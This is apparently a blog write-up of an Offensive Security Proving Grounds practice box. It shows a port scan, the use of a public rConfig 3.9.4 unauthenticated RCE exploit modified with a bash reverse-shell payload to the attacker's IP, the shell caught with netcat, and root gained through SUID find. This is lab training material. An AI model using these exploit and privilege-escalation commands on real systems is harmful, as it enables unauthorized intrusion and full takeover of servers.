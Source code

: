 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Starting with a simple `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p- -sV 192.168.126.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-12 16:57 EST
Nmap scan report for 192.168.126.57
Host is up (0.026s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB (unauthorized)
8081/tcp open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
Service Info: Host: QUACKERJACK; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.90 seconds
```

## port 21 (`ftp`)
> No `anonymous` login allowed.
{: .prompt-danger }

## port 139,445 (`smb`)
> No smb shares available.
{: .prompt-info }

## port 80 (web server)
A default landing page is visible.

## port 8081 (web server)
Installed software: `rConfig Version 3.9.4 `

---

# exploitation
## find an exploit
```bash
$ searchsploit rconfig 3.9.4
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
rConfig 3.9.4 - 'search.crud.php' Remote Command Injection                                                                                    | php/webapps/48241.py
rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote Code Execution                                                                      | php/webapps/48261.py
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote Code Execution` looks worth a try.

## customize exploit
The exploit does not trigger a reverse shell out of the box.  

The payload needs to be changed: ```payload = ''' `touch /tmp/.'''+fake_user+'''.txt;sudo zip -q /tmp/.'''+fake_user+'''.zip /tmp/.'''+fake_user+'''.txt -T -TT '/bin/sh -i>& /dev/tcp/{0}/{1} 0>&1 #'` '''.format(ip, port)```  
  
We are changing the payload variable to ```payload = ''' `bash -c 'bash -i >& /dev/tcp/192.168.49.126/8081 0>&1'` '''```

## start listener on attacker machine
```bash
$ nc -lvp 8081
listening on [any] 8081 ...
```

## execute exploit
```bash
$ python3 48261.py https://192.168.126.57:8081/ 192.168.49.126 8081
rConfig - 3.9 - Unauthenticated root RCE
[+] Adding a temporary admin user...
[+] Authenticating as syrmuxipft...
[+] Logged in successfully, triggering the payload...
[+] Check your listener !
[+] The reverse shell seems to be opened :-)
[+] Removing the temporary admin user...
[+] Done.
```

## catch connection from target
```bash
$ nc -lvp 8081
listening on [any] 8081 ...
192.168.126.57: inverse host lookup failed: Unknown host
connect to [192.168.49.126] from (UNKNOWN) [192.168.126.57] 41716
bash: no job control in this shell
bash-4.2$ whoami
whoami
apache
```

> We got a shell!
{: .prompt-info }

---

# post exploitation
## get first flag
```bash
bash-4.2$ cd home
cd home
bash-4.2$ ls
ls
rconfig
bash-4.2$ ls -lsah
ls -lsah
total 4.0K
   0 drwxr-xr-x.  3 root   root   21 Jun 22  2020 .
   0 dr-xr-xr-x. 17 root   root  244 Jun 25  2020 ..
4.0K drwxr-xr-x. 15 apache root 4.0K Jul  9  2020 rconfig
bash-4.2$ cd rconfig
cd rconfig
bash-4.2$ ls
ls
LICENSE
README.md
backups
classes
composer.json
composer.lock
config
cronfeed
data
lib
local.txt
logs
reports
templates
tmp
updates
vendor
www
bash-4.2$ cat local.txt
cat local.txt
3******************************5
```

## privilege escalation

Looking for binaries with `SUID` flag which are owned by `root`.

```bash
bash-4.2$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
/dev/nullype f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>  
-r-xr-sr-x. 1 root tty 15344 Jun  9  2014 /usr/bin/wall
-rwsr-xr-x. 1 root root 199304 Oct 30  2018 /usr/bin/find
-rwsr-xr-x. 1 root root 73888 Aug  8  2019 /usr/bin/chage
-rwsr-xr-x. 1 root root 78408 Aug  8  2019 /usr/bin/gpasswd
-rws--x--x. 1 root root 23968 Apr  1  2020 /usr/bin/chfn
-rws--x--x. 1 root root 23880 Apr  1  2020 /usr/bin/chsh
-rwsr-xr-x. 1 root root 41936 Aug  8  2019 /usr/bin/newgrp
-rwsr-xr-x. 1 root root 32128 Apr  1  2020 /usr/bin/su
---s--x--x. 1 root root 147336 Apr  1  2020 /usr/bin/sudo
-rwsr-xr-x. 1 root root 44264 Apr  1  2020 /usr/bin/mount
-rwsr-xr-x. 1 root root 31984 Apr  1  2020 /usr/bin/umount
-rwxr-sr-x. 1 root tty 19544 Apr  1  2020 /usr/bin/write
---x--s--x. 1 root nobody 382216 Aug  8  2019 /usr/bin/ssh-agent
-rwsr-xr-x. 1 root root 57656 Aug  8  2019 /usr/bin/crontab
-rwsr-xr-x. 1 root root 23576 Apr  1  2020 /usr/bin/pkexec
-rwsr-xr-x. 1 root root 27856 Mar 31  2020 /usr/bin/passwd
-rwsr-xr-x. 1 root root 32096 Oct 30  2018 /usr/bin/fusermount
-rwx--s--x. 1 root slocate 40520 Apr 10  2018 /usr/bin/locate
-rwsr-xr-x. 1 root root 36272 Apr  1  2020 /usr/sbin/unix_chkpwd
-rwsr-xr-x. 1 root root 11232 Apr  1  2020 /usr/sbin/pam_timestamp_check
-rwxr-sr-x. 1 root root 11224 Mar 31  2020 /usr/sbin/netreport
-rwsr-xr-x. 1 root root 11296 Mar 31  2020 /usr/sbin/usernetctl
-rwxr-sr-x. 1 root postdrop 218560 Apr  1  2020 /usr/sbin/postdrop
-rwxr-sr-x. 1 root postdrop 264128 Apr  1  2020 /usr/sbin/postqueue
-rwsr-xr-x. 1 root root 15432 Apr  1  2020 /usr/lib/polkit-1/polkit-agent-helper-1
-rwx--s--x. 1 root utmp 11192 Jun  9  2014 /usr/libexec/utempter/utempter
-rwsr-x---. 1 root dbus 58024 Mar 14  2019 /usr/libexec/dbus-1/dbus-daemon-launch-helper
---x--s--x. 1 root ssh_keys 465760 Aug  8  2019 /usr/libexec/openssh/ssh-keysign
```

Checking [gtfobins](https://gtfobins.github.io/gtfobins/find/#suid) shows that `find` can be used to elevate the privileges to `root`.

```bash
bash-4.2$ /usr/bin/find . -exec /bin/sh -p \; -quit     
/usr/bin/find . -exec /bin/sh -p \; -quit
sh-4.2# whoami
whoami
root
```

> Root! Root!
{: .prompt-info }

## get second flag
```bash
sh-4.2# cd /root
cd /root
sh-4.2# ls
ls
proof.txt
sh-4.2# cat proof.txt
cat proof.txt
6******************************5
```

Pwned! <@:-)
